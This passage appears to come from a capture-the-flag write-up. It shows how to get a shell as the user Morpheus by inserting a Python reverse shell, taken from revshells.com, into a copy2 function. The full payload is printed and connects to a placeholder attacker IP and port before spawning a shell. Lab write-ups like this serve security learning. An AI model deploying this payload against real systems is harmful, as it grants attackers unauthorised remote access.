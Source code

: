 Let's try to add a python reverse shell code inside of this function to see if we can have a shell as Morpheus.

Again let's go to reverse shell generator

{% embed url="https://www.revshells.com/" %}

I took the content of python2 in the enclosed quotes. and then separated each lines and removed "`;`"

{% code overflow="wrap" %}
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
{% endcode %}

Once again change the attacker ip and port and input this code into the copy2 function.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
